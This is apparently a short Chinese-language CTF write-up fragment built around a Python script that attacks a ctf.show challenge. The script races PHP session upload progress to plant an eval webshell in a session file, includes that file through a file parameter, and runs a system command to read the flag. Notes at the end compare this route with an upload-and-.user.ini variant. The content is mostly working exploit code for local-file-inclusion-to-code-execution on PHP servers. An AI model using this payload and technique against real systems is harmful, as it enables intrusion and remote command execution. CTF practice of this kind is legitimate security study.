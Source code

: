 ```python
```

文件包含

```python
import requests
import threading
import sys

session = requests.session()
sess = 'zzy'
url1 = "http://0bd266c6-b013-4a9a-97b5-2a644856a1e5.challenge.ctf.show:8080/"
url2 = 'http://0bd266c6-b013-4a9a-97b5-2a644856a1e5.challenge.ctf.show:8080/?file=/tmp/sess_' + sess

# file后为phpsession的路径
data1 = {
    'PHP_SESSION_UPLOAD_PROGRESS': '<?php eval($_POST[1]);?>'
}
data2 = {
    '1': 'system("cat f*");'
}
file = {
    'file': 'abc'
}
cookies = {
    'PHPSESSID': sess
}


def write():
    while True:
        r = session.post(url1, data=data1, files=file, cookies=cookies)


def read():
    while True:
        r = session.post(url2, data=data2)
        if 'ctfshow{' in r.text:
            print(r.text)


threads = [threading.Thread(target=write),
           threading.Thread(target=read)]
for t in threads:
    t.start()

```

上面两个脚本的区别

```
文件上传，用url1的内容，post向phpsession中爆flag，然后通过访问url2，可以触发upload下的index.php,然后到.user.ini,再到png中去include PHPSESSION的内容，执行命令。如果是传入小马，url2需要post内容，执行命令

文件包含：url1的内容，来向phpsession中写入小马，然后，通过url2的file的参数去包含phpsession的路径，加上url2的post来执行命令，从而得到flag。

```
